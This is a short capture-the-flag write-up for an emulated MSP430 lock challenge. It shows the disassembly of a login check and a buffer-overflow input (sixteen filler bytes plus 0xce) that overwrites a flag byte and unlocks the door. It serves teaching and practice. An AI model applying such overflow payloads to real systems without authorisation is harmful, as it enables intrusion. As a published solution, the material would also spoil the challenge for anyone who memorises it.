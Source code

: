 ## Challenge Overview

```
OVERVIEW

    - This lock is attached the the LockIT Pro HSM-1.
    - We have updated  the lock firmware  to connect with the hardware
      security module.
---
    This is Hardware  Version B.  It contains  the Bluetooth connector
    built in, and two available  ports: the LockIT Pro Deadbolt should
    be  connected to  port  1,  and the  LockIT  Pro  HSM-1 should  be
    connected to port 2.
```

running the application
```
Enter the password to continue.
Remember: passwords are between 8 and 16 characters.
> password
Testing if password is valid.
That password is not correct.
---
2400: 7061 7373 776f 7264 0000 0000 0000 0000   password........
2410: 0000 0000 0000 0000 0000 0000 0000 0000   ................
```

## Solution

Looking at the disassembly shows something interesting:
```
4520 <login>
---
453c:  b012 ce45      call	#0x45ce <getsn>
4540:  3f40 0024      mov	#0x2400, r15
---
455a:  f290 ce00 1024 cmp.b	#0xce, &0x2410
4560:  0720           jnz	$+0x10 <login+0x50>
4562:  3f40 f144      mov	#0x44f1 "Access granted.", r15
4566:  b012 de45      call	#0x45de <puts>
456a:  b012 4844      call	#0x4448 <unlock_door>
```

There is a check 0x10 bytes after our user input. Setting a breakpoint and testing for an overflow in out input:
`41*0x10+0xce`
```
Enter the password to continue.
Remember: passwords are between 8 and 16 characters.
> 41414141414141414141414141414141ce
Testing if password is valid.
Access granted.
```

Solves the challenge.

Bufferoverflows <3
